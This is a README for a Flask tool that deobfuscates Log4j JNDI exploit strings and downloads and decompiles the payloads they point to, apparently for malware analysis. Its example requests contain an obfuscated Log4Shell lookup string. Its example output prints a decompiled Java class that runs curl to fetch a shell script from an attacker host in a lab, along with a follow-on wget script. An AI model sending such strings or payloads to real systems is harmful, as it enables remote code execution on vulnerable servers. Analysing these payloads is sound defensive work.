

# Description

Simple Flask web app to extract Log4j exploit JavaByteCode payloads and other downloaded payloads from JNDI string payload with obfuscation.

# Installation

1. Clone repo
2. Install dependencies
    - `pip3 install -r requirements.txt`
    - Install libmagic, JAVA JDK `sudo apt install lib-magic default-jdk`
    - Build `jd-cli` from `https://github.com/intoolswetrust/jd-cli` using maven `mvn clean package -Dskiptests`
    - Copy `jd-cli.jar` in app folder
3. Run `python3 api.py`

# Usage



# Notes

1. Deobfuscation function was made based on examples here `https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words`

2. Web UI is single JQuery + Bootstrap `index.html`, communicating with Flask app over following endpoints:
    - `/api/deoubfuscate`: deobfuscate JDNI string and transform into URL

    ```bash
    curl 127.0.0.1:5000/api/deobfuscate -d '{"jndi":"${${date:j}${date:n}${date:d}${date:i}:${date:l}${date:d}${date:a}${date:p}://192.168.1.157:1389/y02czk}"}' -H "Content-Type: application/json"
    ```

    ```json
    {"res":"ldap://192.168.1.157:1389/y02czk"}
    ```
    
    - `/api/payload`: download JavaByteCode, will download JavaByteCode, disassemble and download referenced payloads, downloaded over `http(s)`

    ```bash
    curl 127.0.0.1:5000/api/payload -d '{"url":"${${date:j}${date:n}${date:d}${date:i}:${date:l}${date:d}${date:a}${date:p}://192.168.1.157:1389/y02czk}"}' -H "Content-Type: application/json"
    ```

    ```json
    {
    "res": [{
        "case_id": "6442971a-049c-49af-9b64-d7e9efc3bdee",
        "created": "2021-12-27 00:44:16",
        "file_content": "DN: y02czk\n\tjavaClassName: foo\n\n\tjavaCodeBase: http://192.168.1.157:8180/\n\n\tobjectClass: javaNamingReference\n\n\tjavaFactory: ExecTemplateJDK5\n\n",
        "file_content_type": "text/plain",
        "file_name": "JavaBaseClass",
        "file_sha256": "7b141bc4bef58c465043fdd577286a00aea4c0f7f7b53166bb2d3b2c1e0765da",
        "file_size": "142",
        "file_type": "ASCII text",
        "id": 1,
        "ip": "192.168.1.157",
        "status": "OK",
        "uri": "ldap://192.168.1.157:1389/y02czk",
        "uri_host": "192.168.1.157:1389",
        "uri_path": "/y02czk",
        "uri_query": "",
        "uri_scheme": "ldap"
    }, {
        "case_id": "6442971a-049c-49af-9b64-d7e9efc3bdee",
        "created": "2021-12-27 00:44:16",
        "file_content": "01:44:16.313 INFO  com.github.kwart.jd.cli.Main - Decompiling ./payloads/6442971a-049c-49af-9b64-d7e9efc3bdee/ExecTemplateJDK5.class\npackage ..payloads.6442971a-049c-49af-9b64-d7e9efc3bdee;\n\npublic class ExecTemplateJDK5 {\n  static {\n    String[] arrayOfString;\n    if (System.getProperty(\"os.name\").toLowerCase().contains(\"win\")) {\n      arrayOfString = new String[] { \"cmd.exe\", \"/C\", \"curl http://192.168.1.157:8000/1.sh\" };\n    } else {\n      arrayOfString = new String[] { \"/bin/bash\", \"-c\", \"curl http://192.168.1.157:8000/1.sh\" };\n    } \n    try {\n      Runtime.getRuntime().exec(arrayOfString);\n    } catch (Exception exception) {\n      exception.printStackTrace();\n    } \n    System.out.println();\n  }\n}\n\n",
        "file_content_type": "text/plain",
        "file_name": "ExecTemplateJDK5.class.txt",
        "file_sha256": "67b3944e13095cb51164633892ae2fe25cba51adc4128bb860a62f1755cf0e4f",
        "file_size": "714",
        "file_type": "ASCII text",
        "id": 2,
        "ip": "192.168.1.157",
        "status": "OK",
        "uri": "http://192.168.1.157:8180/ExecTemplateJDK5.class",
        "uri_host": "192.168.1.157:8180",
        "uri_path": "/ExecTemplateJDK5.class",
        "uri_query": "",
        "uri_scheme": "http"
    }, 
    {
        "case_id": "6442971a-049c-49af-9b64-d7e9efc3bdee",
        "created": "2021-12-27 00:44:17",
        "file_content": "wget http://192.168.1.157:8000/2.sh\n",
        "file_content_type": "text/plain",
        "file_name": "89dec3f7-69d9-4c38-9df0-599e414ae240",
        "file_sha256": "22a5a1e6a7d94077771e23d48f40fe4555f945d6af20d9fe3aab8ae82c396c9d",
        "file_size": "36",
        "file_type": "ASCII text",
        "id": 4,
        "ip": "192.168.1.157",
        "status": "OK",
        "uri": "http://192.168.1.157:8000/1.sh",
        "uri_host": "192.168.1.157:8000",
        "uri_path": "/1.sh",
        "uri_query": "",
        "uri_scheme": "http"
    }, {
        "case_id": "6442971a-049c-49af-9b64-d7e9efc3bdee",
        "created": "2021-12-27 00:44:17",
        "file_content": "ping 192.168.1.1\n",
        "file_content_type": "text/plain",
        "file_name": "89dec3f7-69d9-4c38-9df0-599e414ae240",
        "file_sha256": "29dd8ea095e872ac3b023739b7c9033846be20841e41d3f9c0e951bcd3ae7903",
        "file_size": "17",
        "file_type": "ASCII text",
        "id": 5,
        "ip": "192.168.1.157",
        "status": "OK",
        "uri": "http://192.168.1.157:8000/2.sh",
        "uri_host": "192.168.1.157:8000",
        "uri_path": "/2.sh",
        "uri_query": "",
        "uri_scheme": "http"
    }]
}
```
